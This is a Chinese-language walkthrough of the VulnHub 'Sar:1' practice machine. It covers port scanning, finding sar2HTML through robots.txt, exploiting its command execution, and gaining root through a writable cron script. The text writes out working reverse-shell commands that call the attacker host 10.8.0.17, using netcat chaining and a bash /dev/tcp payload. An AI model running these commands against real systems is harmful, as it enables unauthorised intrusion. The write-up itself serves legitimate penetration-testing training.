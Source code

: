 

## 靶机地址

https://www.vulnhub.com/entry/sar-1,425/



## 信息收集阶段

进行全端口扫描，枚举目标的端口和服务

```shell
nmap -n -v -sS --max-retries=0 -p- 172.16.33.13
```



<img src="https://cos.kevinc.ltd/file/download?fileId=804" style="zoom: 50%;" />

```shell
nmap -sV -p80 -A 172.16.33.13
```



只有80端口放通，扫描端口服务版本

<img src="https://cos.kevinc.ltd/file/download?fileId=805" style="zoom: 33%;" />

访问web服务，发现是`apache`默认页面，无可用信息

<img src="https://cos.kevinc.ltd/file/download?fileId=806" style="zoom: 33%;" />

使用`dirsearch`对目录进行扫描，发现有敏感文件`phpinfo.php`和`robots.txt`

<img src="https://cos.kevinc.ltd/file/download?fileId=808" style="zoom: 33%;" />

访问`robots.txt`，发现有`sar2HTML`, 访问一下

<img src="https://cos.kevinc.ltd/file/download?fileId=809" style="zoom: 33%;" />





## 利用漏洞拿shell

使用`searchsploit`查询有无`sar2HTML`的漏洞利用代码，结果如下

<img src="https://cos.kevinc.ltd/file/download?fileId=810" style="zoom: 33%;" />

看一下具体内容，其实`py`文件就是`txt`文件的代码实现，使用`py`脚本

<img src="https://cos.kevinc.ltd/file/download?fileId=811" style="zoom: 33%;" />

拿到普通权限，需要在远程主机弹一个shell回攻击机

尝试执行命令 `nc 10.8.0.17 8888 -e /bin/bash`，然后在攻击机上执行 `nc -nvlp 8888`

没有弹成功，怀疑是命令执行过滤了`-e`参数

有两种思路可以绕过，都可以成功执行

第一为**NC串联** 

```shell
> sar-command
nc 10.8.0.17 6666 | /bin/bash | nc 10.8.0.17 8888

> kali
> 开两个窗口

nc -nvlp 6666 # 用于输入命令
nc -nvlp 8888 # 用于输出结果
```

效果如下

<img src="https://cos.kevinc.ltd/file/download?fileId=812" style="zoom: 33%;" />

第二种为**对反弹shell进行编码**

<img src="https://cos.kevinc.ltd/file/download?fileId=813" style="zoom: 33%;" />



## 提权

先用`linpeas.sh`脚本对提权信息进行收集

发现有一个计划任务可尝试利用

<img src="https://cos.kevinc.ltd/file/download?fileId=814" style="zoom: 33%;" />

查看改脚本文件，发现执行的是另一个脚本文件`write.sh`，查看权限发现其可写可执行，尝试写shell

<img src="https://cos.kevinc.ltd/file/download?fileId=815" style="zoom: 33%;" />

```shell
echo "bash -c 'exec bash -i &>/dev/tcp/10.8.0.17/6666 >&1'" > write.sh
```

攻击机上监听 6666 端口，过一段时间即可获得 root 权限

<img src="https://cos.kevinc.ltd/file/download?fileId=816" style="zoom: 33%;" />
